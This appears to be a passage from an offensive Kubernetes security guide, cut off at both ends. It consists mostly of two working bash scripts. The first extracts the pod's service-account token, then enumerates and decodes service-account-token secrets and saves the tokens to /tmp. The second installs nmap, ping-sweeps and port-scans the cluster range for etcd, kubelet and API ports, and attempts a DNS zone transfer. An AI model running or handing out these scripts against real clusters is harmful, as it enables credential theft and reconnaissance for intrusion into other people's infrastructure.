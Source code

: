 ```bash
    TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
    test_token "$TOKEN" "current_pod"
fi

# Harvest tokens from secrets (if accessible)
if kubectl get secrets >/dev/null 2>&1; then
    echo "[+] Enumerating secrets for tokens..."
    
    kubectl get secrets -o json | jq -r '.items[] | select(.type=="kubernetes.io/service-account-token") | .metadata.name' | while read secret; do
        echo "[+] Extracting token from secret: $secret"
        TOKEN=$(kubectl get secret $secret -o jsonpath='{.data.token}' 2>/dev/null | base64 -d)
        if [ ! -z "$TOKEN" ]; then
            test_token "$TOKEN" "$secret"
        fi
    done
fi

echo "=== Token harvesting complete ==="
echo "Collected tokens saved to /tmp/token_*.txt"
```

**3. Network Discovery and Scanning Automation**

```bash
#!/bin/bash
# k8s-netscan.sh - Kubernetes Network Discovery

echo "=== Kubernetes Network Discovery ==="

# Install dependencies if needed
if ! command -v nmap &> /dev/null; then
    echo "[+] Installing nmap..."
    apt update && apt install -y nmap curl
fi

# Discover cluster IP ranges
echo "[+] Discovering network ranges..."
CLUSTER_IP=$(kubectl get svc kubernetes -o jsonpath='{.spec.clusterIP}' 2>/dev/null)
echo "Cluster IP: $CLUSTER_IP"

# Extract network range from cluster IP
if [ ! -z "$CLUSTER_IP" ]; then
    NETWORK=$(echo $CLUSTER_IP | cut -d. -f1-3).0/24
    echo "Scanning network: $NETWORK"
    
    # Quick ping sweep
    echo "[+] Performing ping sweep..."
    nmap -sn $NETWORK | grep -E "Nmap scan report|MAC Address"
    
    # Service discovery on live hosts
    echo "[+] Scanning for Kubernetes services..."
    nmap -p 80,443,2379,6443,8080,8443,9090,10250,10255 $NETWORK --open
fi

# Service enumeration via DNS
echo "[+] DNS service discovery..."
nslookup kubernetes.default.svc.cluster.local
dig axfr cluster.local

# Port scanning common Kubernetes ports
echo "[+] Scanning for exposed Kubernetes components..."
for port in 2379 6443 8080 8443 10250 10255 10256 9090; do
    echo "Scanning port $port..."
```